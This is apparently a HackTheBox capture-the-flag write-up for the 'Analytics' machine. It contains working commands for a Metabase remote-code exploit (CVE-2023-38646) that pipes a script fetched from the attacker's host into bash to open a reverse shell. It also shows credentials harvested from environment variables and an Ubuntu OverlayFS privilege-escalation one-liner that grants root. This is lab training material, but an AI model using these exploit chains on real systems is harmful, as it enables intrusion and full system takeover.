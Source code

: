 # easy - Analytics

## User

Ok, so hostname is being revealed:
```bash
~z➤ curl -I analytics.htb
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 10 Oct 2023 20:24:22 GMT
Content-Type: text/html
Content-Length: 154
Connection: keep-alive
Location: http://analytical.htb/

~z➤ curl -I analytical.htb
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 10 Oct 2023 20:24:56 GMT
Content-Type: text/html
Content-Length: 17169
Last-Modified: Fri, 25 Aug 2023 15:24:42 GMT
Connection: keep-alive
ETag: "64e8c7ba-4311"
Accept-Ranges: bytes
```

While nmap says the regular ports 22 and 80 are open:
```bash
~z➤ sudo nmap -n -Pn -sV -O -T4 analytics.htb
...
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-10 16:24 -04
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

### Reviewing HTML source code

Here what seems interesting:
```html
<a class="nav-item nav-link" href="http://data.analytical.htb">Login</a>
<link rel="stylesheet" href="css/jquery.mCustomScrollbar.min.css">
<link rel="stylesheet" href="css/owl.carousel.min.css">
<link rel="stylesheet" href="css/responsive.css">
<p class="copyright_text">Copyright 2023 All Right Reserved By.<a href="https://html.design"> analytical.htb</p>
```

Also some possible usernames are being leaked:
```bash
~z➤ curl -s analytical.htb | elinks --dump
...
                                    Our Team
Jonnhy Smith
   Chief Data Officer
Alex Kirigo
   Data Engineer
Daniel Walker
   Data Analyst
Jonnhy Smith
   Chief Data Officer
Alex Kirigo
   Data Engineer
Daniel Walker
   Data Analyst
Jonnhy Smith
   Chief Data Officer
Alex Kirigo
   Data Engineer
Daniel Walker
   Data Analyst

                                   Contact us
...
   due@analytical.com
   demo@analytical.com
...
```

Turns out the application is running a **metabase** based app. Which seems to be vulnerable to CVE-2023-38646 ([Youtube PoC]()https://www.youtube.com/watch?v=b51LPjD-uTo).

There are many PoC around online.

Let's prepare a `r` bash reverse shell file, serve it with python http module and test the PoC:
```bash
~z➤ python CVE-2023-38646.py -u http://data.analytical.htb -c "curl http://10.10.14.171:6666/r|bash"
Success get token!
Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
Command: curl http://10.10.14.171:6666/r|bash
Base64 Encoded Command: Y3VybCBodHRwOi8vMTAuMTAuMTQuMTcxOjY2NjYvcnxiYXNo
Exploit success !
Check on your own to validity!
```

And we've got our rev shell:
```bash
z➤ nc -lvnp 55555
Connection from 10.129.140.149:52766
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
daf268230e5d:/$ id
id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
```

### Pivoting outside the container

Initially it seemed weird to me that `$USER` path didn't have the user.txt file, then I noticed we are in a container and the `env` vars has sensitive information:
```bash
daf268230e5d:~$ ls /home/metabase
plss /home/metabase

daf268230e5d:~ps aux
ps aux
PID   USER     TIME  COMMAND
    1 metabase  4:01 java -XX:+IgnoreUnrecognizedVMOptions -Dfile.encoding=UTF-8 -Dlogfile.path=target/log -XX:+CrashOnOutOfMemoryError -server -jar /app/metabase.jar
   97 metabase  0:00 bash -c {echo,Y3VybCBodHRwOi8vMTAuMTAuMTQuMTcxOjY2NjYvcnxiYXNo}|{base64,-d}|{bash,-i}
  101 metabase  0:00 bash -i
  103 metabase  0:00 bash
  104 metabase  0:00 bash -i
  114 metabase  0:00 ps aux

daf268230e5d:~$ env
...
META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

So we were not actually pivoting, we just found valid ssh creds:
```bash
~z➤ ssh metalytics@analytics.htb
Last login: Tue Oct  3 09:14:35 2023 from 10.10.14.41
...
metalytics@analytics:~$ id
uid=1000(metalytics) gid=1000(metalytics) groups=1000(metalytics)
metalytics@analytics:~$ ls
user.txt
```
## Root

No sudo
```bash
metalytics@analytics:~$ sudo -l
[sudo] password for metalytics:
Sorry, user metalytics may not run sudo on localhost.
```

Well, this one is interesting. I didn't know about this, we are in an Ubuntu 22 which turns out to be vulnerable to a combination of CVEs about filesystem overlay and escalation of privileges. CVEs are CVE-2023-2640 and CVE-2023-32629.

Proof of Concept:
```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
```

We just need to run the command `bash` instead of `id` and we become root:
```bash
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
> setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash")'
root@analytics:~# id
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
```

## TODOs
- Review in depth CVE-2023-38646 
- Review in depth CVE-2023-2640 & CVE-2023-32629
